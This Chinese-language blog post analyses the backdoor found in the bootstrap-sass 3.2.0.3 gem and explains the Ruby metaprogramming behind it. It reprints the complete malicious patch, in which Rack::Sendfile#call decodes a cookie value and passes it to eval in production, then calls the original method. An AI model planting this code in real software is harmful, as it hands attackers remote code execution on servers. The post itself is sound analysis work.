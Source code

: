 ```yaml
---
title:  "bootstrap-sass 3.2.0.3 黑客大佬用到的元编程"
toc: true
toc_label: "目录"
toc_icon: "cog"
tags: ruby gem cve metaprogramming
---
```


*tl; dr [**BKSpurgeon** 大佬的分析](https://github.com/twbs/bootstrap-sass/issues/1195#issuecomment-479756912)*

### 白帽大佬的分析

```ruby
begin
  require 'rack/sendfile'
  if Rails.env.production? # Continue only if we're in the rails production environment:

    Rack::Sendfile.tap do |r|
      # We're using the tap method. the block parameter, r, will be the Rack::Sendfile class.
      # So whenever you see r, just think we are working with the Rack::Sendfile class.

      r.send :alias_method, :c, :call
      # creates a method on Rack::Sendfile called `c` which reroutes to `call`.
      ## After the above you could now do:
      # send_file = Rack::Sendfile.new
      # send_file.c
      ## and the above would in turn call the ORIGINAL `call` method contained in the
      ## Rack::Sendfile class, and not the one that is being monkey patched below.
      ## `r.send` makes use of the `Object#send` method https://apidock.com/ruby/Object/send
      ## Another way of rewriting the above code would be:
      ## `Rack::Sendfile.alias_method(:c, :call)` which is equivalent to:
      ## `r.send :alias_method, :c, :call`

      ## The following bit of code below bit redefines the call(e) method which is in
      ## the SendFile class: https://github.com/rack/rack/blob/master/lib/rack/sendfile.rb
      ## again, `r.send(:define_method, :call) do |e|` is equivalent to saying:
      ## class Rack::Sendfile
      ##   def call(e)
      ##         # => Insert the malicious code below: begin....rescue...end
      ##   end
      ## end
      r.send(:define_method, :call) do |e|
        begin
          x = Base64.urlsafe_decode64(e['http_cookie'.upcase].scan(/___cfduid=(.+);/).flatten[0].to_s)
          # Please edit this if you are more knowledgeable:

          # gets the e['HTTP_COOKIE'] value out of there.
          # then it scans/looks for this for this value: ___cfduid and extracts it with
          # a regular expression.
          # we then get the entire string out of those cookie(s) and convert it to a string
          # then we unencode it and
          # "eval" simply runs whatever code it's been given, AS A STRING!
          # so that someone could simply construct a request with the malicious code,
          # hidden in a cookie and can run it on your server.
          # simplistically: I could send this: e("WIPE HARDRIVE")
          # and it would run, provided the security levels in eval are passed.
          eval(x) if x
        rescue Exception
        end

        c(e)
        # after we've done the dirty work, let's run the ORIGINAL `call` method, as
        # defined in the Rack::Sendfile class. so no one would be none the wiser.
        # in other words, we've created an aliased method `c`. Running `c`
        # runs the ORIGINAL `call` method, and not the monkey patched one above.
        # But if you run `call` instead of `c`, you will be actually running the tainted and
        # monkey patched `call` method above, and not the original `call` method defined.
        # in Rack::Sendfile. Like Kelley Wentworth says: "Sneaky, sneaky, sneaky!"
      end
    end
  end
rescue Exception
  nil
end
```

### 背景知识：tap

The primary purpose of this method is to “tap into” a method chain, in order to perform operations on intermediate results within the chain.

黑客大佬不修改 object 本身，用 tap 复制一份到 block 去加料

```ruby
(1..10).tap {|x| puts "original: #{x}" }
  .to_a.tap {|x| puts "array:    #{x}" }
  .select {|x| x.even? }.tap {|x| puts "evens:    #{x}" }
  .map {|x| x*x }.tap {|x| puts "squares:  #{x}" }
#original: 1..10
#array:    [1, 2, 3, 4, 5, 6, 7, 8, 9, 10]
#evens:    [2, 4, 6, 8, 10]
#squares:  [4, 16, 36, 64, 100]
```

### 背景知识：send

黑客大佬 send 了 alias_method、define_method，用来保存原来的方法，然后加料

```ruby
class Klass
  def hello(*args)
    puts "大家好 " + args.join(' ')
  end
end
k = Klass.new
k.send :hello, "我是渣渣辉", "我是陈咬春"
#大家好 我是渣渣辉 我是陈咬春
```

### 背景知识：alias_method

This can be used to retain access to methods that are overridden.

重写某个方法后，用 alias 可以访问原方法

```ruby
module Mod
  alias_method :orig_exit, :exit
  def exit
    print "加了料的 "
    orig_exit
  end

  def orig_exit
    puts "bootstrap-sass 官方出品"
  end
end
include Mod
exit
# 加了料的 bootstrap-sass 官方出品
```

### 背景知识：define_method

给类加/重写一个实例方法

```ruby
class A
  def fred
    puts "In Fred"
  end
  def create_method(name, &block)
    self.class.define_method(name, &block)
  end
  define_method(:wilma) { puts "Charge it!" }
end
class B < A
  define_method(:barney, instance_method(:fred))
end
a = B.new
a.barney
a.wilma
a.create_method(:betty) { p self }
a.betty
#In Fred
#Charge it!
##<B:0x00007f869f84e6f8>
```

### 背景知识：eval

eval 可以将（多个）字符串作为代码执行，详见 [Ruby 中的 eval 与 binding](http://wjp2013.github.io/ruby/eval-binding/)

```ruby
eval("p '拖库'; p '删库'; p '留下勒索信息'")
#"拖库"
#"删库"
#"留下勒索信息"
```

### Reference

[白帽大佬的分析](https://github.com/twbs/bootstrap-sass/issues/1195)

[Ruby 中的 eval 与 binding](http://wjp2013.github.io/ruby/eval-binding/)
